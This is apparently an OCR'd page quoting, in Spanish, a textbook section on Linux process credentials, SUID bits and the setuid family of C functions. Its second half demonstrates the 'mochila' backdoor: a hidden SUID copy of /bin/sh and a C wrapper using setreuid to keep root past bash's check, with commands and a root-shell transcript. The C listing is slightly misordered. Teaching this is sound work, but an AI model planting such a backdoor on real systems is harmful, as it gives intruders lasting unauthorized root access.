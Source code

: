 He citado completamente el item 1.5.3 del libro `Programacion de Sistemas` para mayor entendimiento del capitulo:

Antes de meternos con la comunicación entre procesos me gustaría
comentar algunas curiosidades sobre los permisos en GNU/Linux. Como ya
hemos dicho al principio de este capítulo, mientras un programa se está
ejecutando dispone de una serie de credenciales que le permiten acreditarse
frente al sistema a la hora de acceder a sus recursos, es decir, son como la
tarjeta de acceso en un edificio muy burocratizado como pueda ser el
Pentágono: si tu tarjeta es de nivel 5, no puedes acceder a salas de nivel 6 o
superior, las puertas no se abren (y además es probable que quede un
registro de tus intentos fallidos). Dentro de esas credenciales, las que más se
suelen utilizar son el u id y el g id , así como el euid y el egid . Estas dos parejas
informan de qué usuario real y efectivo está ejecutando el programa en
cuestión, para dotarle de unos privilegios o de otros.Programación de Sistemas
36
Para la mayoría de programas, con el eu id es suficiente: si eres
“efectivamente” el usuario root, tienes privilegios de root durante la
ejecución de esa tarea, a pesar de que tu usuario real sea otro. Esto sucede
mucho en ejecutables que tienen el bit de SUID activado: convierten a quien
los ejecuta en el usuario propietario de ese ejecutable. Si dicho usuario era
root, al ejecutarlos te conviertes momentáneamente en root. Esto permite,
por ejemplo, que un usuario normal pueda cambiar su contraseña, es decir,
modificar el fichero ` / etc / shadow `, a pesar de no tener grandes privilegios en
el sistema. El comando ` passwd ` hace de puerta de enlace, por así llamarlo,
entre la petición del usuario y la modificación del fichero protegido:
```c
txipi@neon:~$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1380 2002-11-12 20:12 /etc/shadow
txipi@neon:~$ passwd txipi
Changing password for txipi
(current) UNIX password:
Bad: new and old password are too similar
(hummmm...)
Enter new UNIX password:
Retype new UNIX password:
Bad: new password is too simple
(arghhh!!!!)
Retype new UNIX password:
Enter new UNIX password:
passwd: password updated successfully
(ufff!!)
txipi@neon:~$ which passwd
/usr/bin/passwd
txipi@neon:~$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 25640 2002-10-14 04:05 /usr/bin/passwd
```
Como vemos inicialmente, el fichero `/etc/shadow` está protegido contra
escritura para todos los usuarios excepto para root, y aun así (¡después de
desesperarme un poco!), he podido cambiar mi contraseña, es decir,
modificarlo. Esto es posible gracias a que el programa ` /usr/bin/passwd` que he
utilizado, tiene a root como propietario, y el bit de SUID activado (` -rwsr-xr-
x `).
¿Cómo gestionar todo esto en nuestros programas en C? Utilizando las
siguientes funciones:
```c
uid_t getuid(void);
uid_t geteuid(void);
int setuid(uid_t uid);
int seteuid(uid_t euid);
int setreuid(uid_t ruid, uid_t euid);
```
Con las dos primeras obtenemos tanto el uid como el euid del proceso en
ejecución. Esto puede resultar útil para hacer comprobaciones previas. El
programa “ nmap ”, por ejemplo, comprueba si tienes privilegios de root (es
decir, si euid es 0) antes de intentar realizar ciertas cosas. Las otras tres
funciones sirven para cambiar nuestro uid , euid o ambos, en función de las
posibilidades, esto es, siempre y cuando el sistema nos lo permita: bien
porque somos root, bien porque queremos degradar nuestros privilegios. Las
tres retornan 0 si todo ha ido bien, o –1 si ha habido algún error. Si les
pasamos –1 como parámetro, no harán ningún cambio, por lo tanto:
```c
setuid(uid_t uid) equivale a setreuid(uid_t ruid, -1)
seteuid(uid_t euid) equivale a setreuid(-1, uid_t euid);
```
Analicemos ahora un caso curioso: antiguamente, cuando no se utilizaba
bash como intérprete de comandos, algunos intrusos utilizaban una técnica
que se conoce vulgarmente con el nombre de “mochila” o “puerta trasera”.
Esta técnica se basaba en el hecho de que una vez conseguido un acceso
como root al sistema, se dejaba una puerta trasera para lograr esos
privilegios el resto de veces que se quisiera, de la siguiente forma:
```
neon:~# cd /var/tmp/
neon:/var/tmp# cp /bin/sh .
neon:/var/tmp# chmod +s sh
neon:/var/tmp# mv sh .23erwjitc3tq3.swp
```
Primero conseguían acceso como root (de la forma que fuera),
seguidamente copiaban en un lugar seguro una copia de un intérprete de
comandos, y habilitaban su bit de SUID. Finalmente lo escondían bajo una
apariencia de fichero temporal. La próxima vez que ese intruso accediese al
sistema, a pesar de no ser root y de que root haya parcheado el fallo que dio
lugar a esa escalada de privilegios (fallo en algún servicio, contraseña
sencilla, etc.), utilizando esa “mochila” podrá volver a tener una shell de
root:
```
txipi@neon:~$ /var/tmp/.23erwjitc3tq3.swp
sh-2.05b# whoami
root
sh-2.05b#
```
Actualmente, con bash, esto no pasa. Bash es un poco más precavida y se
cuida mucho de las shells con el bit de SUID activado. Por ello, además de
fijarse sólo en el eu id del usuario que llama a bash, comprueba también el u id .
Utilizando las funciones que hemos visto, seremos capaces de engañar
completamente a bash:

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
int main( int argc, char **argv )
{
uid_t uid, euid;
uid = getuid();
euid = geteuid();
setreuid( euid, euid );
system( "/bin/bash" );
}
return 0;
```
De esta manera, justo antes de llamar a `/bin/bash` nos hemos asegurado
de que tanto el u id como el euid corresponden a root y la “mochila”
funcionará:
```
neon:/var/tmp# gcc mochila.c -o .23erwjitc3tq3.swp
neon:/var/tmp# chmod +s .23erwjitc3tq3.swp
neon:/var/tmp# ls -l .23erwjitc3tq3.swp
-rwsr-sr-x 1 root root 5003 2002-11-12 20:52 .23erwjitc3tq3.swp
neon:/var/tmp# exit
exit
txipi@neon:~$ /var/tmp/.23erwjitc3tq3.swp
sh-2.05b# whoami
root
sh-2.05b#
```
Por este tipo de jueguitos es por los que conviene revisar a diario los
cambios que ha habido en los SUIDs del sistema ;-)`
